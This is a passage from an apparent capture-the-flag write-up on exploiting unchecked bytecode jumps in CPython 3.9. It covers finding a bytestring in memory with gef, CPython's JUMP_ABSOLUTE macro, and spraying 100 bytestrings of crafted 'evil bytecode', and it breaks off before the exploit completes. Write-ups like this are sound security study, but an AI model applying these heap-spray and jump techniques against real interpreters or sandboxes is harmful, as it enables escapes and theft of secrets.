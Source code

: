 Fortunately there are mechanisms for storing bytes in memory without inputting
them directly. The simplest is bytestrings:

```  
gef➤  r  
Starting program: /run/cpython/python -S -i  
Python 3.9.1 (tags/v3.9.1-dirty:1e5d33e, Feb  5 2021, 19:35:48)  
[GCC 8.3.0] on linux  
>>> a = b'\xff\xf1\xff\xf3\xff\xf5\xff\xf7\xff\xf9\xff\xfb\xff\xfd\xff'  
gef➤  search-pattern 0xfffdfffbfff9fff7fff5fff3fff1  
[+] Searching '\xf1\xff\xf3\xff\xf5\xff\xf7\xff\xf9\xff\xfb\xff\xfd\xff' in
memory  
[+] In (0x7f857336a000-0x7f857346a000), permission=rw-  
 0x7f8573389979 - 0x7f85733899b1  →
"\xf1\xff\xf3\xff\xf5\xff\xf7\xff\xf9\xff\xfb\xff\xfd\xff[...]"  
 0x7f85733a2559 - 0x7f85733a2591  →
"\xf1\xff\xf3\xff\xf5\xff\xf7\xff\xf9\xff\xfb\xff\xfd\xff[...]"  
```

We can abuse another bytecode operation without bounds checks:
[jumps](https://github.com/python/cpython/blob/master/Python/ceval.c#L3596-L3611).

```c  
#define JUMPTO(x)       (next_instr = first_instr + (x) /
sizeof(_Py_CODEUNIT))  
...  
case TARGET(JUMP_ABSOLUTE): {  
   PREDICTED(JUMP_ABSOLUTE);  
   JUMPTO(oparg);  
   ...  
}  
```

To make this useful, we need our evil bytecode, inputted as a bytestring, to
be at a predictable offset from our code object so we can reliably jump into
it. This is more complicated than finding the offset between the empty tuple
and `FROZEN_SECRET` because it relies on the allocations in code we input.
After banging my head a bit, I realized the
[unmarshalling](https://github.com/python/cpython/blob/master/Python/marshal.c#L1343)
of a code object allocates a `PyBytesObject` for the bytecode, which is the
same object used by bytestrings. I can allocate a bunch of bytestrings with my
evil bytecode:

```  
A0 = b"\x90\xff\x90\xff\x90\xb3\x64\x3c\x46\x00\x53\x00\xff\xff\xff\xff"  
A1 = b"\x90\xff\x90\xff\x90\xb3\x64\x3c\x46\x00\x53\x00\xff\xff\xff\xff"  
A2 = b"\x90\xff\x90\xff\x90\xb3\x64\x3c\x46\x00\x53\x00\xff\xff\xff\xff"  
...  
A97 = b"\x90\xff\x90\xff\x90\xb3\x64\x3c\x46\x00\x53\x00\xff\xff\xff\xff"  
A98 = b"\x90\xff\x90\xff\x90\xb3\x64\x3c\x46\x00\x53\x00\xff\xff\xff\xff"  
A99 = b"\x90\xff\x90\xff\x90\xb3\x64\x3c\x46\x00\x53\x00\xff\xff\xff\xff"  
```

And then free half of them:
